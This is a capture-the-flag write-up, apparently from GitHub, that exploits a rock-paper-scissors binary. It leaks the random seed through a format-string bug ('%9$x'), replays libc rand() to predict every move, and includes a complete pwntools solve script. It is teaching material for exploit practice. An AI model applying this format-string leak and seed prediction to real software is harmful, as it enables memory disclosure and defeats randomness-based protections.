 We are given a binary:  
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/245b3e9e-f0dd-4d91-995e-ded40cba28f0)

When run it shows the following:  
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/2c139dec-9a62-4405-8ff3-a9926c4041b7)

Apparently we can play with the program, and if we win, something interesting might happen.  
Let's take a look at it in ghidra

![image](https://github.com/AndreQuimper/Writeups/assets/96965806/8a4e8c3c-1d57-4c1d-ac13-acb806cf6799)

So, we can see that the program first opens, `/dev/urandom`, and then uses that random number as a seed, for later deciding what to choose when playing.   
If we win at Rock Paper Scissors, the `print_flag`  function will be called. However, we can see on line `27` that there is an unsafe use of `printf()`.  
The main idea of the exploit is that we can read from memory the random seed, and use it to predict every move the program will make to always beat it.  

After trial and error I found the seed to be the 9th argument to printf.  
``` python3
from pwn import *
import ctypes
import warnings
warnings.filterwarnings('ignore', category=BytesWarning)

elf = ELF('./rps')
context.binary = elf
p = process('./rps')
p.sendlineafter(':', r'%9$x')
p.recvuntil('Hi')
seed = int(p.recvline().strip(),16)
log.success(f'Got Seed: {seed}')

libc = ctypes.CDLL('libc.so.6')
libc.srand(seed)
```
Now we can look at the `play_rps` function to use our knowledge of the seed to always win.  
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/0101418c-7018-4a07-ad26-e3f32a354290)

So, depending on what `rand() % 3` is it chooses `r`, `p`, or `s`. Let's leverage that to play the winning move every time.  
```python3

for i in range(50):
    v = libc.rand() % 3
    if v == 0:
        p.sendlineafter(':','p')
    if v == 1:
        p.sendlineafter(':','s')
    if v == 2:
        p.sendlineafter(':','r')
p.interactive()
```

Final Solve Script:  
```python3
from pwn import *
import ctypes
import warnings
warnings.filterwarnings('ignore', category=BytesWarning)

elf = ELF('./rps')
context.binary = elf
p = process('./rps')
p.sendlineafter(':', r'%9$x')
p.recvuntil('Hi')
seed = int(p.recvline().strip(),16)
log.success(f'Got Seed: {seed}')

libc = ctypes.CDLL('libc.so.6')
libc.srand(seed)

for i in range(50):
    v = libc.rand() % 3
    if v == 0:
        p.sendlineafter(':','p')
    if v == 1:
        p.sendlineafter(':','s')
    if v == 2:
        p.sendlineafter(':','r')
p.interactive()
```

